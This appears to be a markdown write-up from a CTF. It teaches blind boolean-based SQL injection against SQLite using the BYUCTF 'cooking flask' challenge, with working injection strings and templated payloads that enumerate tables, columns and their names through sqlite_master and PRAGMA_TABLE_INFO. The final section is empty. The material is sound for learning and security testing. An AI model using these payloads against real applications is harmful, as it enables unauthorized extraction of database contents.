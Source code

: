 ------------------

### Exploiting sqlite3

------------------

### Blind SQLite3 exfiltration

-----------------

- The method below is `Boolean based` which is `True` or `False` e.g If a statement is true, return this data and if false, do not return this query.
- This approach will be explained with `BYUCTF` `cooking flask` web challenge.The `tag` query is vulnerable-:

![image](https://github.com/user-attachments/assets/0f4fe54e-c1ed-4e87-a3d1-ccdfc717b127)

- Now let's move over to burp suite to understand the logic.If I send a statement `Italian%') and 1=1--+`,we get the data for `Italian` back because there is a column `Italian` and `1` is equals to `1` which is a true statement.You'll notice in the response tab that we got the data for `Italian`.

![image](https://github.com/user-attachments/assets/38f49ef1-6e3e-4f5a-8387-a4a32f74d597)

- Now, let us pass a false statement like `Italian%') and 1=2--+`, we didn't get any result.

![image](https://github.com/user-attachments/assets/d7610063-122a-4ba4-b85f-be22488c55c9)

- That's just the basis of Boolean based injection, if our statement is right,we'll get a positive result and if the statement is false, we'll get a negative result.

-----------------

### Counting the amount of tables

------------------

- The count() function in sql is used to count the amount of stuffs in a database. Digit will be placed after equals to `=`.`Count()` can count amount of rows,column and tables in a dataabase.

```sql
(SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) = {number}
```

-------------------

### Tables length

--------------------

- Use the length() function,the code below is used to count the character length of table.I added `LIMIT` and `OFFSET` because we have to limit the table to a single one.If offset is set to `0` and limit is set to `1`, the first row will be read, to read the others, you just need to increment it.`Offset-:`1 and `limit` to 2.

```sql
(SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' LIMIT 1 OFFSET 0) = {number}
```

---------------------

### Reading the tables's characters

----------------------

- The functions `hex()` and `substr()` are useful in this scenario.You limit the rows and column with limit and offset and select the characters with `substr()`,the substr requires 3 arguments `(tbl_name,{characters'limit},{character's start})` which is hexed with `hex()` and checked if it is equal to a character that is hexed.The second argument of substr should be incremented only while the third argument is set to `1`.

```sqlite
(SELECT hex(substr(tbl_name,{character's end},{character's stop})) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit {i+1} offset {i}) = hex('{char}')--+"
```

-------------------

### Counting Columns-:

-------------------

- Query-:`count()`

```sqlite3
(SELECT count(name) FROM PRAGMA_TABLE_INFO('{table_name}'))={number}
```

-----------------------

### Column's length

-----------------------

- Query-:`length()`

```sqlite3
(SELECT+length(name)+FROM+PRAGMA_TABLE_INFO('{table_name}')+LIMIT+{end}+OFFSET+{start})={number}
```

------------------------

### Column's characters

------------------------

- Welp,limit and offset requires the same logic used for tables but `substr()`'s second argument should be set to `1` and the third one should incremented.`WHEN` holds the characters found e.g substr(name,1,4) indicates you are looking for the fourth character, so `WHEN` should be `fla+{new_character}`.

```sqlite3
(select+case+substr(name,1,{digit+1})+WHEN+'{character}'+THEN+1+ELSE+1/0+END+FROM+PRAGMA_TABLE_INFO('{table_name}') LIMIT {i+1} OFFSET {i})
```

---------------------------

### COUNTING THE STRING OF A DATA IN A COLUMN

--------------------

- 
--------------------
